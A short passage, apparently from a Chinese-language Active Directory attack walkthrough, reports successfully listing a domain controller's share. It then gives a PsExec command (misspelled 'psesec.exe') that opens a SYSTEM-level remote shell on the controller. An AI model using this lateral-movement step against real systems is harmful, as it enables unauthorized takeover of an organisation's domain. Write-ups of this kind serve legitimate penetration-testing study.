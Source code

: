再次访问域控的共享文件，即可发现已经成功列出目录了

![](img/17.png)

#### 拿下域控

写入成功后，使用PsExec.exe以管理员权限运行连接域控

```bash
psesec.exe -accepteula \\IPaddress -s cmd.exe
```
